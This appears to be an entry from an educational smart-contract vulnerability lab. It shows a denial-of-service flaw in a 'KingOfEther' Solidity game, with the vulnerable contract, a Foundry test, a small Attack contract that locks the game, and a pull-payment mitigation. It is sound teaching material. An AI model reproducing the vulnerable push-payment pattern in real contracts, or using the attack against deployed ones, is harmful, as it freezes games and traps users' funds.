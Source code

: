 # DOS 
[DOS.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/DOS.sol)   
**Name:** Denial of Service

**Description:**  
The KingOfEther contract holds a game where a user can claim the throne by sending more Ether than the current balance.
The contract attempts to return the previous balance to the last "king" when a new user sends more Ether. 

However, this mechanism can be exploited. An attacker's contract (here, the Attack contract) can become the king and then make the fallback function revert or consume more than the stipulated gas limit, causing the claimThrone function to fail whenever the KingOfEther contract tries to return Ether to the last king.

**Mitigation:**  
Use a Pull payment pattern, A way to prevent this is to enable users to withdraw their Ether, instead of sending it to them.

**REF:**

https://slowmist.medium.com/intro-to-smart-contract-security-audit-dos-e23e9e901e26

 **KingOfEther Contract:**  
 ```
 contract KingOfEther {
    address public king;
    uint public balance;

    function claimThrone() external payable {
        require(msg.value > balance, "Need to pay more to become the king");

        (bool sent, ) = king.call{value: balance}("");
        require(sent, "Failed to send Ether");

        balance = msg.value;
        king = msg.sender;
    }
}
```
**How to Test:**

forge test --contracts src/test/**DOS.sol** -vvvv  
```
// This function tests a Denial of Service (DoS) attack scenario.
function testDOS() public {
    // 'alice' and 'bob' are assigned address values from the Ethereum virtual machine.
    address alice = vm.addr(1);
    address bob = vm.addr(2);

    // Alice and Bob are dealt 4 ether and 2 ether respectively.
    vm.deal(address(alice), 4 ether);
    vm.deal(address(bob), 2 ether);

    // Some prank function is called with Alice's address.
    vm.prank(alice);

    // Alice tries to claim the throne of the KingOfEtherContract by sending 1 ether.
    KingOfEtherContract.claimThrone{value: 1 ether}();

    // The prank function is called again, this time with Bob's address.
    vm.prank(bob);

    // Bob tries to claim the throne by sending 2 ether.
    KingOfEtherContract.claimThrone{value: 2 ether}();

    // The balance of Alice is logged after returning 1 ether to Alice.
    console.log("Return 1 ETH to Alice, Alice of balance", address(alice).balance);

    // The Attack contract is invoked, attacking the KingOfEtherContract with 3 ether.
    AttackerContract.attack{value: 3 ether}();

    // The balance of the KingOfEtherContract is logged.
    console.log("Balance of KingOfEtherContract", KingOfEtherContract.balance());

    // A message is logged indicating the attack is complete and Alice will fail to claim the throne again.
    console.log("Attack completed, Alice claimthrone again, she will fail");

    // The prank function is called again with Alice's address and the process expects a revert.
    vm.prank(alice);
    vm.expectRevert("Failed to send Ether");

    // Alice tries to claim the throne again, which will fail because of the DoS attack.
    KingOfEtherContract.claimThrone{value: 4 ether}();
}

// The Attack contract that initiates the DoS attack on the KingOfEther contract.
contract Attack {
    KingOfEther kingOfEther;

    // Constructor that initializes the KingOfEther contract.
    constructor(KingOfEther _kingOfEther) {
        kingOfEther = KingOfEther(_kingOfEther);
    }

    // The attack function that claims the throne by sending ether to the KingOfEther contract.
    function attack() public payable {
        kingOfEther.claimThrone{value: msg.value}();
    }
}
```
Red box: no one can win the game after exploiting.  
![Alt text](image-12.png)

